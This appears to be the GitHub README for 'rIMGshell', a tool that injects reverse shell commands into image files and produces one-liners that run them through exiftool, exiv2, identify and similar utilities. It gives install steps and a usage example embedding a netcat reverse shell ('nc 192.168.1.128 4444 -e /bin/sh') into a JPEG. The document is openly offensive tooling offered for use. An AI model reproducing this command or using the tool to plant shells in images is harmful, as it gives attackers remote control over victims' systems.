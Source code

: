 # rIMGshell

<img src="https://github.com/git5loxosec/rIMGshell/blob/main/Screenshot_2023-09-22_20_08_14.png">
```
# rIMGshell

![GitHub](https://img.shields.io/github/license/git5loxosec/rIMGshell)

rIMGshell is a command-line tool for injecting a reverse shell command into an image and generating one-liner execution methods to exploit it.

## Features

- Inject reverse shell commands into image files.
- Generate one-liner execution methods for various tools.
- Choose from multiple one-liner execution methods.

## Installation

1. Clone the repository:

   ```
   git clone https://github.com/git5loxosec/rIMGshell.git
   ```

2. Change to the project directory:

   ```
   cd rIMGshell
   ```

3. Make the script executable:

   ```
   chmod +x rIMGshell.sh
   ```

## Usage

```
./rIMGshell.sh [OPTIONS] <REVERSE_SHELL_COMMAND> <IMAGE_FILENAME>
```

- `[OPTIONS]` - Optional arguments.
- `<REVERSE_SHELL_COMMAND>` - The reverse shell command to inject.
- `<IMAGE_FILENAME>` - The name of the image file.

**Example:**

```
./rIMGshell.sh "nc 192.168.1.128 4444 -e /bin/sh" image.jpg
```

## One-Liner Execution Methods

- **exiftool-one-liner:** Injected image can be executed with exiftool.
- **exiv2-one-liner:** Injected image can be executed with exiv2.
- **identify-one-liner:** Injected image can be executed with identify.
- **file-grep-one-liner:** Injected image can be executed with file and grep.
- **jpeginfo-grep-one-liner:** Injected image can be executed with jpeginfo and grep.

## Contributing

Contributions are welcome! Please fork the repository and submit a pull request.

## License

This project is licensed under the [MIT License](LICENSE).
```
